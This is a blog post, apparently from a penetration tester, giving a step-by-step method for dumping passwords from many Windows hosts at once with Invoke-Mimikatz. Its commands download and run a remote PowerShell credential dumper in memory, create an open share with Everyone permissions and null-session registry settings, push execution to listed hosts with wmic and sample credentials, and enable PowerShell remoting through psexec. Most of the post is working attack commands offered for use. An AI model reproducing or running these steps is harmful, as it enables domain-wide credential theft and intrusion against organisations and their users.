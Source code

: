 = "Dumping a domain worth of passwords with mimikatz"
:hp-tags: mimikatz, cli

[clymb3r](http://clymb3r.wordpress.com/) recently posted a script called "[Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz)" basically what this does is reflectively injects mimikatz into memory, calls for all the logonPasswords and exits. It even checks the targets architecture (x86/x64) first and injects the correct DLL.

You can very easily use this script directly from an admin command prompt as so:

    powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds"

(This works REALLY well for Citrix and Kiosk scenarios and it's too hard to type/remember)
This runs the powershell script by directly pulling it from Github and executing it "in memory" on your system. 

One of the awesome added capabilities for this script is to run on a list of hosts. as so:

    powershell "IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds -ComputerName @('computer1', 'computer2')"

This works great as all the output is directly on your system and all executed through Powershell Remoting. [Powershell Remoting]("http://msdn.microsoft.com/en-us/library/windows/desktop/ee706585(v=vs.85).aspx") is pretty much the same as WinRM. This service however is not enabled by default and can be pretty hit or miss on how much any given enterprise uses WinRM. However, it is usually the servers and more important systems that have it enabled more often than not.

You can find WinRM / PowerShell Remoting by scanning for the service port 47001 as well as the default comm ports for WinRM 5985 (HTTP) and 5986 (HTTPS).

If you find that your target isn't a WinRM rich environment or you just want more passwords you can take a slightly more painful route, I call it "Mass Mimikatz"

Step 1. Make a share, we are doing this so we can not only collect the output of all our computers passwords, but to host the CMD batch file that will run the powershell script:

    cd\
    mkdir open
    net share open=C:\open /grant:everyone,full
    icacls C:\open\ /grant Everyone:(OI)(CI)F /t

We are setting "Everyone" permissions on a Share (net share) and NTFS (icacls) level for this to work properly.

Step 2. Set registry keys. There are two registry keys that we need to set. The first allows Null Sessions to our new share and the second allows null users to have the "Everyone" token so that we don't have to get crazy with our permissions. I have create a meterpreter script that has a bunch of error checking here: [massmimi_reg.rb](https://raw.github.com/mubix/post-exploitation/master/scripts/mass_mimikatz/massmimi_reg.rb)
or you can just make the following changes"

    HKLM\System\CurrentControlSet\services\LanmanServer\Parameters NullSessionShares REG_MULTI_SZ  = open
    HKLM\System\CurrentControlSet\Contol\Lsa "EveryoneIncludesAnonymous" = 1

Step 3. Change directory into new "open" directory. This is so our uploads and in particular our web server will be hosted out of the correct directory.

Step 4. Upload powershell script [powermeup.cmd](https://raw.github.com/mubix/post-exploitation/master/scripts/mass_mimikatz/powermeup.cmd) - this script will run our hosted Invoke-Mimikatz script on each host:

    powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.127:8080/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds > \\192.168.1.127\open\%COMPUTERNAME%.txt 2>&1

Step 5. Upload [clymb3r](http://clymb3r.wordpress.com/)'s Invoke-Mimikatz ps1 - Download from [PowerSploit](https://github.com/mattifestation/PowerSploit) repo: [source on github](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)

Step 6. Upload mongoose: [Downloads Page](http://cesanta.com/downloads.html) - Both regular and tiny versions work. This is an awesome, single executable webserver that supports LUA, Sqlite, and WebDAV out of the box. Tiny version is under 100k.

Step 7. Upload serverlist.txt - This is a line by line list of computer names to use mimikatz on. You'll have to gather this one way or another.

Step 8. Execute mongoose (from directory with mimikatz.ps1) - This will start a listener with directory listings enabled on port 8080 by default

Step 9a. Execute wmic:

    wmic /node:@serverlist.txt process call create "\\192.168.92.127\open\powershellme.cmd"

Step 9b. Execute wmic with creds:

    wmic /node:@serverlist.txt /user:PROJECTMENTOR\jdoe /password:ASDqwe123 process call create "\\192.168.92.127\open\powershellme.cmd"

Step 10. Watch as text files full of wonder and joy fill your share.

You can find the scripts here: https://github.com/mubix/post-exploitation/tree/master/scripts/mass_mimikatz

Don't forget to clean up::

1. kill mongoose process
2. net share open /delete
3. kill/reset registry values
4. delete "open" directory

Got a better way of getting this done? Please leave a comment.

P.S. You could just enable Powershell Remoting for them ;)

    psexec @serverlist.txt -u [admin account name] -p [admin account password] -h -d powershell.exe "enable-psremoting -force"

![](/images/postimages/201310_multimimi_1.png)
